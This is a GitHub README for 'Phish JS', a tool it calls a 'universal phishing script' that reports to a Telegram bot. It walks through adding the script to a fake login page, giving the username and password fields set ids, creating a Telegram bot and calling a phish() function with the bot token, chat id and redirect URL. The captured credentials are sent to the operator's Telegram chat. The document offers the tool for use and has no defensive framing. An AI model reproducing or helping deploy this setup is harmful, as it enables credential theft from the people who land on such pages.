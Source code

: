 <p align="center">
    <img src="https://i.postimg.cc/NG8KJWZ1/external-content-duckduckgo-com.png" alt="logo" width="154" height="154">
</p>

<h2 align="center">Phish JS</h2>

<p align="center">
     Universal phishing script + Telegram bot notification
</p>

[![Privatium](https://img.shields.io/github/license/xbaysal11/privatium)](https://github.com/xbaysal11/phish-js)
[![Github](https://img.shields.io/github/followers/xbaysal11?style=social)](https://github.com/xbaysal11)
[![Privatium](https://img.shields.io/github/stars/xbaysal11/phish-js?style=social)](https://github.com/xbaysal11/phish-js)

---

# Documentation

## 1. Download files or clone
  - [Download files](https://github.com/xbaysal11/phish-js/archive/master.zip).

## 2. Put "phish.min.js" file to your project

## 3. Import "phish.min.js"
```
<script src="phish.min.js"></script>
```

## 4. Import "JQuery"
Via [CDN](https://code.jquery.com/)  is the quickest and easiest way to get JQuery on your website.

```
<script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha256-pasqAKBDmFT4eHoN2ndd6lN370kFiGUFyTiUHWhU7k8=" crossorigin="anonymous"></script>
```

## 5. Set ids to inputs and button

```
<input type="text" id='username'>
<input type="password" id='password'>

<button type="button" id='submit-button'>Login</button>
```

## 6. Get TOKEN and CHAT_ID

 - 1. Create bot with `@BotFather` and copy bot TOKEN
 - 2. Open your bot and type `/start` 
 - 3. Get chat id here:  `https://api.telegram.org/bot<TOKEN>/getUpdates`

## 7. Call function

```
<script>
    $(document).ready(function () {
        const BOT_TOKEN = 'your_bot_token',
            CHAT_ID = 'your_chat_id',
            REDIRECT_URL = 'default_redirect_url'
        phish(BOT_TOKEN, CHAT_ID, REDIRECT_URL);
    });
</script>
```

---

### LICENSE

Phish JS is [MIT licensed.](https://github.com/xbaysal11/phish-js/blob/master/LICENSE)
